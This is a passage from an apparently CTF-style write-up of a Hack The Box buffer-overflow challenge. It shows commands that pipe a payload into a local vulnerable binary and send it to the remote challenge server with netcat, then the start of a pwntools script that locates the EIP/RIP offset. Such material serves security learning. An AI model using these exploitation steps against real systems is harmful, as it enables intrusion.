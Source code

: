 Create a test flag:

```
echo "HERE_IS_YOUR_FLAG!!!!" > flag.txt
```

Exploit:

```
cat payload | ./vuln
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also send it to the remote server hosting the binary on HTB's infrastructure via:

```
cat payload - | nc <IP_HERE> <PORT_HERE>
```

We need a `-` so we send payload to STDIN after our pipe.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Automated Exploitation

`exploit.py`:

```python
from pwn import *


def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.pc)  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './vuln'
```